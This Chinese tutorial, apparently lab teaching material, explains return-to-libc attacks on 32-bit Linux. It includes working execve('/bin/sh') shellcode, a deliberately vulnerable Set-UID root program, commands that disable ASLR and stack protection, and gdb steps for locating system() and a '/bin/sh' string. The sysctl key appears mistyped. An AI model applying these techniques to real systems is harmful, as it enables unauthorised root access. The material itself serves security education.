





# Return to Libc 攻击之一

## 一、引言

在典型的栈缓冲区溢出攻击中，攻击者首先需要在目标栈中放置一段恶意代码，然后修改函数的返回地址，使得当函数返回时程序跳转到恶意代码在栈中的位置执行。我们可以使用的一种防御方法是让栈不可执行，这样即使攻击者能够使程序跳转到栈中的恶意代码，也不会造成任何破坏，因为恶意代码无法执行。

栈的主要目的是用来存储数据，很少需要在栈中运行代码。因此，大多数程序不需要可执行的程序栈。在一些体系架构中 (包括 x86)，可以在硬件层面将一段内存标记为不可执行。在 Ubuntu 系统中，如果使用 gcc 编译程序，**<font color="red">可以让 gcc 生成一个特殊的二进制文件，这个二进制文件的头部中有一个比特位，表示是否需要将栈设置为不可执行</font>**。当程序被加载执行时，操作系统首先为程序分配内存，然后检查该比特位，如果它被置位，那么栈的内存区域将被标记为不可执行。以下面的代码为例：

```c{.line-numbers}
#include <string.h>
// gcc -z execstack shellcode.c -o shellcode -m32
// 因为此 shellcode 只是单纯执行 exceve

const char code[] =
	"\x31\xc0\x50\x68//sh\x68/bin"
	"\x89\xe3\x50\x53\x89\xe1\x99"
	"\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {

	char buffer[sizeof(code)];
	strcpy(buffer, code);
	((void(*)( ))buffer)( );
}
```

上述代码首先将 shellcode 二进制代码写入到缓冲区中，然后将缓冲区看成是一个函数，然后调用此函数，调用后会产生一个 shell。我们在编译时分别打开和关闭"禁止栈执行"选项：

```shell{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc -z execstack shellcode.c -o shellcode -m32
monica@xvm:~/csapp/chapter3$ ./shellcode 
$ 
# 以下命令让栈不可执行
monica@xvm:~/csapp/chapter3$ gcc -z noexecstack shellcode.c -o shellcode -m32
monica@xvm:~/csapp/chapter3$ ./shellcode 
段错误
```

execstack 是一个用于管理 ELF 可执行文件的栈执行权限的工具。在 Linux 系统中，栈通常默认是不可执行的（NX 保护），以防止缓冲区溢出攻击。通过 execstack，用户可以查看或修改二进制文件的栈执行权限。**`-s`** **选项设置栈为可执行，允许在栈上执行代码**；**`-c` 清除栈的可执行权限，启用 NX 保护，增强安全性**。因此，如果想改变一个已经编译好的程序的可执行栈比特位，可以使用 execstack。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ execstack -c ./shellcode
monica@xvm:~/csapp/chapter3$ ./shellcode 
段错误
monica@xvm:~/csapp/chapter3$ execstack -s ./shellcode
monica@xvm:~/csapp/chapter3$ ./shellcode 
$ 
```

绕过防御措施：成功的缓冲区溢出攻击需要运行恶意代码，但这些代码不一定非要在栈中。鉴于攻击者只能注入数据(代码)到栈中，而随着栈变得不可执行，攻击者就无法再运行他们注入的代码，但他们可以想办法借助内存中已有的代码进行攻击。

**内存中有一个区域存放着很多代码，主要是标准 C 语言库函数。在 Linux 中，该库被称为 libc，它是一个动态链接库**。很多的用户程序都需要使用 libc 库中的函数，所以在这些程序运行之前，操作系统会将 libc 库加载到内存中。我们可以利用 libc 库中的 system 函数，这个函数接收一个字符串作为参数，将此字符串作为一个命令来执行。

```c{.line-numbers}
// The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3) 
// as follows:
// execl("/bin/sh", "sh", "-c", command, (char *) NULL);
// system() returns after the command has been completed.
// The return value of system() is one of the following:
#include <stdlib.h>
int system(const char *command);
```

上面是 system 函数的定义和介绍，system 函数会调用 fork 函数产生子进程，由子进程来执行 **`execl("/bin/sh", "sh", "-c", command, (char *) NULL);`** 函数进而执行 command 命令，命令执行完后随即返回原调用的进程。execl 函数要求开发者在调用中以字符串列表形式来指定参数，而不使用数组来描述 argv 列表。**<font color="red">首个参数对应于新程序 main() 函数的 `argv[0]`，因而通常与参数 filename 或 pathname 的 basename 部分相同</font>**。必须以 NULL 指针来终止参数列表，以便于各调用定位列表的尾部。

```c{.line-numbers}
int execl(const char* pathname, const char* arg, ... /*, (char*) NULL*/);
```

**`execl("/bin/sh", "sh", "-c", command, (char *) NULL);`** 函数执行效果等同于命令行 **`/bin/sh -c 'command'`**。有了 system 函数，如果想要在缓冲区溢出后运行一个 shell，无须自己编写 shellcode，只需要跳转到 system() 函数，让它来运行指定的 "/bin/sh" 程序即可。根据前面描述，等同于运行 **`/bin/sh -c '/bin/sh'`**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ /bin/sh -c '/bin/sh'
$
```

上述攻击策略就被称之为 return-to-libc 攻击方式，以下就是其基本的原理。

<div align="center">
    
</div>

## 二、攻击实验

### 1.准备

我们准备的漏洞程序如下所示：

```c{.line-numbers}
// 代码清单 2.1
/* This program has a buffer overflow vulnerability. */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char* str) {
    char buffer[100];

    /* the following statement has a buffer overflow problem. */
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv) {
    char str[400];
    FILE* badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);

    printf("returned properly\n");
    return 1;
}
```

首先编译上述代码，在编译时，需要打开不可执行栈的同时，需要关闭 StackGuard 机制，另外还需要关闭地址空间布局随机化的机制。并且上述代码是一个 root 用户的 Set-UID 程序，因此它运行时具有 root 权限，这使得该程序称为攻击的目标。因此还需要执行命令，将程序变成一个以 root 为所有者的 Set-UID 程序。

```c{.line-numbers}
$ gcc -m32 -fno-stack-protector -z noexecstack -o stack stack.c
$ sudo sysctl -w kernel.randomize.va_space=0
$ sudo chown root stack
$ sudo chmod 4755 stack
```

这里的目标是跳转到 system() 函数，然后让它执行 **`/bin/sh`**。这相当于调用 **`system("/bin/sh")`**。为了实现这个目标，需要执行以下三个任务:

- 任务 A: 找到 **`system()`** 函数的地址。需要找到 **`system()`** 函数在内存中的地址，将有漏洞程序中的函数返回地址改成该地址，这样函数返回时程序就会跳转到 **`system()`** 函数。
- 任务 B: 找到字符串 **`/bin/sh`** 的地址。为使 **`system()`** 函数运行一个命令，命令的名字需要预先放在内存中，并且必须预先知道它的地址。
- 任务 C：**`system()`** 函数的参数。获取字符串 /bin/sh 的地址之后，需要将地址传给 **`system()`** 函数。**`system()`** 函数从栈中获取参数，这意味着字符串的地址需要放在栈中。

### 2.任务 A：找到 **system()** 函数地址

在 Linux 中，当一个需要使用 libc 的程序运行时，libc 函数库将被加载到内存中。**<font color="red">当 ASLR 关闭时，对同一个程序，这个函数库总是加载到相同的内存地址 (对不同程序，函数库在内存中的地址不一定相同)</font>**。因此，可以使用调试工具 (如 gdb) 轻易地找到 system() 函数在内存中的地址。也就是说，可以调试目标程序。即使程序是一个 root 所有的 Set-UID 程序，仍然可以调试它，虽然在调试时特殊权限会被丢弃 (即有效用户 ID 会被设置成和真实用户 ID 一致)。

>-q 表示 quiet mode，禁用 GDB 的启动信息，比如版权声明和提示符信息。启动后，会直接进入调试界面，而不会显示额外的说明性文本。

首先我们使用 gdb 调试之前没有使用 **`-g`** 选项编译的 stack 二进制程序，如下所示，可以得到 system 函数的地址 **`0x7ffff7c50d70`**，exit 函数的地址 **`0x7ffff7c455f0`**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gdb stack -q
Reading symbols from stack...
(No debugging symbols found in stack)
(gdb) b  foo
Breakpoint 1 at 0x11d1
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x00005555555551d1 in foo ()
(gdb) p system
$1 = {int (const char *)} 0x7ffff7c50d70 <__libc_system>
(gdb) p exit
$2 = {void (int)} 0x7ffff7c455f0 <__GI_exit>
(gdb) 
```

接下来我们修改一下 foo 函数，stack 程序运行时打印出 system 函数与 exit 函数的地址。

```c{.line-numbers}
int foo(char* str) {

    char buffer[100];
    printf("%p %p\n", &system, &exit);
    /* the following statement has a buffer overflow problem. */
    strcpy(buffer, str);
    return 1;
}
```

打印出的地址如下所示，可以发现运行时 system 函数与 exit 函数的地址与使用 gdb 调试时的地址相同。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
0x7ffff7c50d70 0x7ffff7c455f0
段错误

```

需要注意的是，**<font color="red">对同一个程序，如果把它从 Set-UID 程序改成非 Set-UID 程序，libc 函数库加载的地址可能是不一样的</font>**，所以上述调试一定要使用有漏洞的 Set-UID 程序，否则得到的地址可能是不对的。

### 3.任务 B：找到 **`/bin/sh`** 字符串地址

#### 3.1 环境变量在进程内存中的位置

On modern Linux systems, environment values are "kind-of" stored on the stack -- for specific values of "kind-of".

**<font color="red">The actual strings that make up the environment are stored at the top (highest-numbered addresses) of the process's virtual address space</font>**, along with other environmental data. The stack proper begins immediately below this. **<font color="blue">The addresses of the individual environment variables are pushed onto the stack</font>** by the kernel's program loader, along with the argc and argv values.

This close correspondence between the environment and the stack leads many writers to talk about the environment being "on the stack" although, strictly speaking, only the addresses of the specific environment values are properly on the stack. Diagrams of the Linux process address space often show the stack at the top of memory, although if you run pmap on a process, you'll see that this isn't usually the case -- there will be one or two segments above the stack proper, and the environment variables will be found in one of these.

#### 3.2 环境变量 **`/bin/sh`** 的地址

在找到 system 函数的地址后，接下来需要找到字符串 **`/bin/sh`** 的地址，并且作为参数传递给 system 函数。有多种方法可以实现这个目的。例如，当对目标程序发起缓冲区溢出攻击时，可以把字符串放置在缓冲区中，然后获取它的地址。**<font color="red">也可以利用环境变量，运行漏洞程序之前，定义一个环境变量 MYSHELL="/bin/sh"，并用 export 命令指明该环境变量会被传递给子进程</font>**。因此，如果在 shell 中执行漏洞程序，MYSHELL环境变量将出现在漏洞程序进程的内存中，只要找到它的地址即可。

```c{.line-numbers}
#include <stdio.h>
#include <stdlib.h>

int main(int argc,char *argv[], char *envp[]) {

   char* shell = (char*) getenv("MYSHELL");
   if (shell) {
       printf("Value:    %s\n", shell);
       printf("Address:  %lx\n", (unsigned long) shell);
   }
  
   return 1;
}
```

使用 **`gcc envaddr.c -o envaddr`** 命令行来编译上述代码，在运行上述程序之前，先定义一个环境变量 MYSHELL，当程序运行时，它的进程将继续继承父进程的 MYSHELL 环境变量，运行结果如下：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc envaddr.c -o env55
monica@xvm:~/csapp/chapter3$ ./env55
Value:    /bin/sh
Address:  7fffffffe3a9
```

修改程序名称的长度。一旦 ASLR 被关闭，MYSHELL 环境变量在由同一个进程生成的不同子进程中的地址将是一样的，**<font color="red">但需要注意的是，MYSHELL 环境变量的地址和程序名称的长度有关</font>**。例如，将程序名称从 env55 修改为 env7777，环境变量的地址也会发生改变。可以看到当程序名称长度增加 2 时，环境变量 MYSHELL 的地址减少了 4。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ mv env55 env7777
monica@xvm:~/csapp/chapter3$ ./env7777 
Value:    /bin/sh
Address:  7fffffffe3a5
```

环境变量保存在程序的栈中，**但在环境变量被压入栈之前，首先被压入栈中的是程序名，因此，程序名称的长度将影响环境变量在内存中的位置**。使用下面的调试方法打印栈的信息时可以看到，程序名称存储在地址 0x7fffffffefce 中（下面第 72 行）。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc envaddr.c -g -o envaddr_dbg
monica@xvm:~/csapp/chapter3$ gdb -q envaddr_dbg
Reading symbols from envaddr_dbg...
(gdb) b main
Breakpoint 1 at 0x11a0: file envaddr.c, line 6.
(gdb) r
Starting program: /home/monica/csapp/chapter3/envaddr_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0x7fffffffdfe8, envp=0x7fffffffdff8) at envaddr.c:6
6	   char* shell = (char*) getenv("MYSHELL");
(gdb) x/100s *((char**) environ)
0x7fffffffe355:	"SHELL=/bin/bash"
0x7fffffffe365:	"SESSION_MANAGER=local/xvm:@/tmp/.ICE-unix/1307,unix/xvm:/tmp/.ICE-unix/1307"
0x7fffffffe3db:	"MYSHELL=/bin/sh"
0x7fffffffe3eb:	"QT_ACCESSIBILITY=1"
0x7fffffffe3fe:	"COLORTERM=truecolor"
0x7fffffffe412:	"XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg"
0x7fffffffe43f:	"SSH_AGENT_LAUNCHER=gnome-keyring"
0x7fffffffe460:	"XDG_MENU_PREFIX=gnome-"
0x7fffffffe477:	"GNOME_DESKTOP_SESSION_ID=this-is-deprecated"
0x7fffffffe4a3:	"LANGUAGE=zh_CN:zh"
0x7fffffffe4b5:	"GNOME_SHELL_SESSION_MODE=ubuntu"
0x7fffffffe4d5:	"SSH_AUTH_SOCK=/run/user/1000/keyring/ssh"
0x7fffffffe4fe:	"XMODIFIERS=@im=ibus"
0x7fffffffe512:	"DESKTOP_SESSION=ubuntu"
0x7fffffffe529:	"GTK_MODULES=gail:atk-bridge"
0x7fffffffe545:	"DBUS_STARTER_BUS_TYPE=session"
0x7fffffffe563:	"PWD=/home/monica/csapp/chapter3"
0x7fffffffe585:	"XDG_SESSION_DESKTOP=ubuntu"
0x7fffffffe5a0:	"LOGNAME=monica"
0x7fffffffe5b1:	"XDG_SESSION_TYPE=wayland"
0x7fffffffe5ca:	"SYSTEMD_EXEC_PID=1307"
0x7fffffffe5e0:	"_=/usr/bin/gdb"
0x7fffffffe5ef:	"XAUTHORITY=/run/user/1000/.mutter-Xwaylandauth.T7NA22"
0x7fffffffe625:	"LINES=24"
0x7fffffffe62e:	"HOME=/home/monica"
0x7fffffffe642:	"USERNAME=monica"
0x7fffffffe654:	"IM_CONFIG_PHASE=1"
0x7fffffffe666:	"LANG=zh_CN.UTF-8"
0x7fffffffe677:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
0x7fffffffe73f:	"=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo"...
0x7fffffffe807:	"=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*."...
0x7fffffffe8cf:	"ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=0"...
0x7fffffffe997:	"1;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:"...
0x7fffffffea5f:	"*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli="...
0x7fffffffeb27:	"01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.m"...
0x7fffffffebef:	"ka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:"
0x7fffffffec66:	"XDG_CURRENT_DESKTOP=ubuntu:GNOME"
0x7fffffffec87:	"COLUMNS=120"
0x7fffffffec93:	"VTE_VERSION=6800"
0x7fffffffeca4:	"WAYLAND_DISPLAY=wayland-0"
0x7fffffffecbe:	"GNOME_TERMINAL_SCREEN=/org/gnome/Terminal/screen/59200505_2fb3_4221_8312_289c2598353b"
0x7fffffffed14:	"GNOME_SETUP_DISPLAY=:1"
0x7fffffffed2b:	"LESSCLOSE=/usr/bin/lesspipe %s %s"
0x7fffffffed4d:	"XDG_SESSION_CLASS=user"
0x7fffffffed64:	"TERM=xterm-256color"
0x7fffffffed78:	"LESSOPEN=| /usr/bin/lesspipe %s"
0x7fffffffed98:	"USER=monica"
0x7fffffffeda6:	"GNOME_TERMINAL_SERVICE=:1.109"
0x7fffffffedc4:	"DISPLAY=:0"
0x7fffffffedcf:	"SHLVL=1"
0x7fffffffedd7:	"QT_IM_MODULE=ibus"
0x7fffffffede9:	"DBUS_STARTER_ADDRESS=unix:path=/run/user/1000/bus,guid=3c854a7fc45f099f824f805867b0b3d9"
0x7fffffffee41:	"LD_LIBRARY_PATH=/usr/local/lib"
0x7fffffffee60:	"XDG_RUNTIME_DIR=/run/user/1000"
0x7fffffffee7f:	"XDG_DATA_DIRS=/usr/share/ubuntu:/usr/local/share/:/usr/share/:/var/lib/snapd/desktop"
0x7fffffffeed4:	"PATH=/home/monica/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin"
0x7fffffffef60:	"GDMSESSION=ubuntu"
0x7fffffffef72:	"DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus,guid=3c854a7fc45f099f824f805867b0b3d9"
0x7fffffffefce:	"/home/monica/csapp/chapter3/envaddr_dbg"
0x7fffffffeff8:	""
0x7fffffffeff9:	""
0x7fffffffeffa:	""
0x7fffffffeffb:	""
0x7fffffffeffc:	""
0x7fffffffeffd:	""
0x7fffffffeffe:	""
0x7fffffffefff:	""
0x7ffffffff000:	<error: Cannot access memory at address 0x7ffffffff000>
```

因此在高地址处保存的首先是程序名称，接下来（地址依次变低）才是整个进程的环境变量信息。当在程序中使用 getenv 获取某一个环境变量的值时，getenv 函数返回的就是存储在进程高端地址空间中的环境变量对应字符串的地址。注意比如要获取 **`GDMSESSION`** 环境变量的值，那么返回的就是 ubuntu 字符串的值，等于 **`0x7fffffffef60 + 11 = 0x7fffffffef6B`**。

#### 3.3 程序名称对环境变量地址的影响

从前一节可以看出，当程序名称为 env55 时，MYSHELL 环境变量的地址为 0x7fffffffe3a9，而当程序名称变为 env7777 时，环境变量地址则变为了 0x7fffffffe3a5，减少了 4。接下来首先将 main 函数修改成如下代码，然后再运行 env55 和 env7777 程序。

```c{.line-numbers}
#include <stdio.h>
#include <stdlib.h>

int main(int argc,char *argv[], char *envp[]) {

   char* shell = (char*) getenv("MYSHELL");
   if (shell) {
       printf("Value:    %s\n", shell);
       printf("Address:  %lx\n", (unsigned long) shell);
   }
   
   	printf("\nargv:\n");
   	for (int i=0; i<argc; i++) {
		printf("%s\n", argv[i]);
	}
	
	printf("\nenv:\n");
	for (char **env = envp; *env != NULL; env++) {
        printf("%s\n", *env);
    }

   return 1;
}
```

首先运行 env55 程序，得到的结果如下（省略掉其它不想关的环境变量），可以看到有一个环境变量 **`_=./env55`**，**<font color="red">下划线 **`_`** 通常表示最近执行命令的完整路径或脚本路径，Shell 会自动更新 **`_`** 变量的值，使其指向上一个执行的命令或脚本的绝对路径</font>**。如果执行 **`./env55`** 脚本，则 **`_`** 会被赋值为 **`./env55`**；如果执行 **`/usr/bin/ls`**，则 **`_`** 会变为 **`/usr/bin/ls`**。使用 **`echo $_`** 指令可以输出当前脚本或命令的路径。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./env55
Value:    /bin/sh
Address:  7fffffffe3a9

argv:
./env55

env:
SHELL=/bin/bash
MYSHELL=/bin/sh
.....
_=./env55
```

再运行 env7777 程序得到的结果如下所示，环境变量 **`_`** 的值变为了 **`./env7777`**，也就是这里程序名称的长度增加了 2，另外如前一节所说，在环境变量之前保存着程序名称，因此那边程序名称的长度也增加了 2，因此一共增加了 4。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./env7777 
Value:    /bin/sh
Address:  7fffffffe3a5

argv:
./env7777

env:
SHELL=/bin/bash
MYSHELL=/bin/sh
......
_=./env7777
```

我们再进行验证，将 env7777 修改为 env88888888，然后因为程序名称增加了 4，所以 MYSHELL 环境变量的值变为了 **`0x7fffffffe3a5-8=0x7fffffffe39d`**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ mv env7777 env88888888
monica@xvm:~/csapp/chapter3$ ./env88888888 
Value:    /bin/sh
Address:  7fffffffe39d
......
```

接下来使用 gdb 调试 env55 和 env7777 程序（使用 gcc 重新编译上述代码），可以看出，gdb 调试 env55 时 MYSHELL 环境变量的地址为 0x7fffffffe3e9，而当调试 env7777 时，环境变量地址则变为了 0x7fffffffe3e7，只减少了 2，这是因为从 gdb 中启动程序时，**`_`** 环境变量的地址为 **`/usr/bin/gdb`**。因此相当于只有环境变量之前的程序名称（下面第 22 行与第 46 行）发生了变化，因此当使用 gdb 调试时，**<font color="red">MYSHELL 环境变量的地址的变化数量=程序名称变化数量</font>**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc envaddr.c -o env55 -g
monica@xvm:~/csapp/chapter3$ gdb -q env55
Reading symbols from env55...
(gdb) b 12
Breakpoint 1 at 0x11f0: file envaddr.c, line 12.
(gdb) r
Starting program: /home/monica/csapp/chapter3/env55 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Value:    /bin/sh
Address:  7fffffffe3e9

Breakpoint 1, main (argc=1, argv=0x7fffffffdff8, envp=0x7fffffffe008) at envaddr.c:12
12	   	printf("\nargv:\n");
(gdb) x/100s *((char**) environ)
0x7fffffffe35b:	"SHELL=/bin/bash"
0x7fffffffe36b:	"SESSION_MANAGER=local/xvm:@/tmp/.ICE-unix/1307,unix/xvm:/tmp/.ICE-unix/1307"
0x7fffffffe3e1:	"MYSHELL=/bin/sh"
......
0x7fffffffe5e6:	"_=/usr/bin/gdb"
......
0x7fffffffefd4:	"/home/monica/csapp/chapter3/env55"

monica@xvm:~/csapp/chapter3$ gcc envaddr.c -o env7777 -g
monica@xvm:~/csapp/chapter3$ gdb -q ./env7777
Reading symbols from ./env7777...
(gdb) b 12
Breakpoint 1 at 0x11f0: file envaddr.c, line 12.
(gdb) r
Starting program: /home/monica/csapp/chapter3/env7777 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Value:    /bin/sh
Address:  7fffffffe3e7

Breakpoint 1, main (argc=1, argv=0x7fffffffdff8, envp=0x7fffffffe008) at envaddr.c:12
12	   	printf("\nargv:\n");
(gdb) x/100s *((char**) environ)
0x7fffffffe359:	"SHELL=/bin/bash"
0x7fffffffe369:	"SESSION_MANAGER=local/xvm:@/tmp/.ICE-unix/1307,unix/xvm:/tmp/.ICE-unix/1307"
0x7fffffffe3df:	"MYSHELL=/bin/sh"
......
0x7fffffffe5e4:	"_=/usr/bin/gdb"
......
0x7fffffffef76:	"DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus,guid=3c854a7fc45f099f824f805867b0b3d9"
0x7fffffffefd2:	"/home/monica/csapp/chapter3/env7777"
0x7fffffffeff8:	""
```

### 4.System 函数的参数

知道了 system() 函数和字符串 "/bin/sh" 的地址后，还需要将字符串地址传递给 system() 函数。**一般情况下，函数在被调用前，调用者把所需参数压入栈中，然后跳转到函数的开头。一旦进入被调用函数，可以通过帧指针 %ebp 获得传递的参数**。

而在 return-to-libc 攻击中，system() 函数并不是以常规方式被调用的: 目标程序只是跳转到函数代码的入口，并没有为这次调用做好前期准备，因此函数所需的参数并不在栈中。因此在漏洞程序跳转到 system() 函数之前，**<font color="red">需要自行将参数 (即字符串 **`/bin/sh`** 的地址) 放入栈中</font>**。如下图所示，函数的第一个参数在 **`%ebp+8`** 处（32 位程序），无论函数何时需要访问它的第一个参数，它都会使用 **`%ebp+8`** 作为这个参数的地址。**因此我们只需要知道漏洞程序跳转到 system() 函数之后 %ebp 指向的位置即可知道 system() 函数的参数**。

<div align="center">
    
</div>

在汇编语言中，一个函数的开头和末尾分别称为函数的 prologue 和后记 epilogue，下面进行介绍。

#### 4.1 函数的 prologue

在汇编语言代码中，函数的 prologue 就是函数开头的代码，它用于为函数准备栈和指针。在 IA-32（32 位 x86）体系结构中，函数的序言通常包含下面 3 条指令：

```armasm{.line-numbers}
;保存 %ebp 的值，它目前指向调用者的栈帧（即上一个栈帧）
pushl  %ebp
;让 %ebp 指向被调用者的栈帧
movl   %esp, %ebp
;为局部变量预留空间
subl   $N, %esp
```

当一个函数被调用时，返回地址被 call 指令压入栈中。prologue 的第一条指令紧接着保存调用者函数的帧指针 (称为前帧指针)，这样当函数返回时，调用者的帧指针可以被恢复。prologue 的第二条指令让帧指针指向栈的当前位置，也就是被调用者的栈帧。这就是帧指针总是指向保存前一个帧指针的内存的原因。第三条指令使栈指针移动 N 字节，主要作用是为函数的局部变量预留空间，N 的大小取决于具体函数。示意图如下所示：

<div align="center">
    
</div>

#### 4.2 函数的 epilogue

函数的 epilogue 是函数末尾处的代码，用于恢复栈和寄存器到函数调用以前的状态。函数的 epilogue 具体包括以下 3 条指令：

```armasm{.line-numbers}
;释放为局部变量开辟的栈空间
movl  %ebp, %esp
;让 %ebp 恢复成调用者函数的栈帧值
popl  %ebp
;返回
ret
```

